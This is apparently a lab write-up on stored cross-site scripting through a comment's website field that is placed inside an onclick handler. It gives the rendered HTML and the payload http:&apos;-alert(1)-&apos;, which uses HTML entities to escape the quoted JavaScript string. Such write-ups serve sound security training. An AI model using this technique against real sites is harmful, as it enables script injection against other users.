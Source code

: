 ### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

Note: the &apos; sequence is an HTML entity representing an apostrophe or single quote. Because the browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds.
_____

Analysis and Exploit:

1. Posted a test comment with params testcomment, testname, testemail{at}email, http{colon}//testhttp

    ```html
    <p>
        <img src="/resources/images/avatarDefault.svg" class="avatar">
        
        <a id="author" href="http://testhttp" onclick="var tracker={track(){}};tracker.track('http://testhttp');">testname</a> | 02 May 2023
    </p>
    ```

    HTML input requires substring _http:_ or _https:_ to be included in the website string

    ```html
    <label>Website:</label>
    <input pattern="(http:|https:).+" type="text" name="website">
    ```

2. Injected payload ```http:&apos;-alert(1)-&apos;```

    Output: 
    ```html
    <a id="author" href="http:&apos;-alert(1)-&apos;" onclick="var tracker={track(){}};tracker.track('http:&apos;-alert(1)-&apos;');"
    ```

3. Clicked on the author name to trigger the stored XSS